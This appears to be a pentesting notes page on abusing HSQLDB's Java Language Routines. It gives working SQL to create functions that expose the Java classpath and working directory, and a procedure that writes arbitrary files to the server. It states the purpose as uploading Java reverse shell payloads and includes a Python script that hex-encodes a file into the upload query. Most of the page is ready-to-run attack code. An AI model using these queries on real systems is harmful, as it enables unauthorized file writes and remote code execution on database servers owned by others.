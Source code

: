 ```yaml
---
title: Pwning HSQLDB
tags:
  - advanced
  - web-app
  - pentesting
  - hsqldb
  - java
  - sql
---
```


## What is HSQLDB?

[Hyper SQL Database (HSQLDB)](https://en.wikipedia.org/wiki/HSQLDB) is a
relational database management system written in Java - you might occasionally
come across it. It's cross-platform, lightweight, and has a bunch of great
features like being able to call static Java methods in the Java Runtime
Environment's (JRE) class path. What's more to love?

## Calling Java Language Routines in HSQLDB

In HSQLDB,
[Java Language Routines (JRTs)](https://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines)
are SQL-Invoked Routines, i.e. functions or procedures, that call methods in
the classpath of the JRE. With JRTs, we can define these SQL functions and pass
parameters to these methods invocations. JRTs that invoke methods that return
values are called _functions_. JRTs that invoke methods that return _void_ are
called _procedures_.

### Reconnaissance

So, I keep mentioning the classpath. What is it? Like `PATH`, it's a path of
`JAR` files currently loaded in the JRE of the HSQLDB instance. Like with
[[pwning-serialization|pwning Java serialization]], we need to know what
gadgets, i.e. static methods, are available for abuse. We can execute the
following query in HSQLDB to create a function that invokes the Java
`getProperty` method, which we'll use to expose the contents of the classpath:

```sql
 CREATE FUNCTION GetSystemProperty(IN key VARCHAR) RETURNS VARCHAR
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

And the following query exposes the classpath:

```sql
VALUES(GetSystemProperty('java.class.path'))
```

Another useful query, the following query exposes the the current directory
HSQLDB is executing from:

```sql
VALUES(GetSystemProperty('user.dir'))
```

### Uploading files

The juicy stuff. We can create a procedure with the following HSQLDB query,
using the `JavaUtils.writeBytesToFilename` method to write a bytes object to a
file. This enables us to do great things like upload Java reverse shell
payloads.

```sql
CREATE PROCEDURE WriteBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

The above procedure has two parameters, `paramString` which is the filename we
wish to write to, and `paramArrayOfByte` which is the byte array of our file
we're going to upload. How do we use it? An example invocation is provided
below:

```sql
CALL WriteBytesToFilename('{DEST}', CAST('{PAYLOAD}' as VARBINARY(1024)))
```

Where `DEST` is where we want to write the file, and `PAYLOAD` is the file's
contents in hex. "How do I get the contents of my file in hex?", you say. The
following Python script will convert a file specified by `filepath` to the
correct format and will generate a payload that uploads the file to the
specified `dest`:

```python
from argparse import ArgumentParser

WRITE_BYTES_TO_FILENAME_QUERY = """CALL WriteBytesToFilename('{dest}', CAST('{payload}' as VARBINARY(1024)))"""


class Solution:
    def __init__(self, filepath: str, dest: str) -> None:
        self.filepath, self.dest = filepath, dest

    def solve(self) -> None:
        payload = None
        with open(self.filepath, "rb") as file:
            payload = file.read().hex()

        print(WRITE_BYTES_TO_FILENAME_QUERY.format(dest=self.dest, payload=payload))


def main():
    parser = ArgumentParser()
    parser.add_argument("-f", "--filepath", dest="filepath")
    parser.add_argument("-d", "--dest", dest="dest")
    args = parser.parse_args()
    s = Solution(args.filepath, args.dest)
    s.solve()


if __name__ == "__main__":
    main()
```

## Related pages

- [[pwning-postgresql|Pwning PostgreSQL]]
- [[sql-enumeration|SQL enumeration]]
- [[sql-injection|SQL injection]]
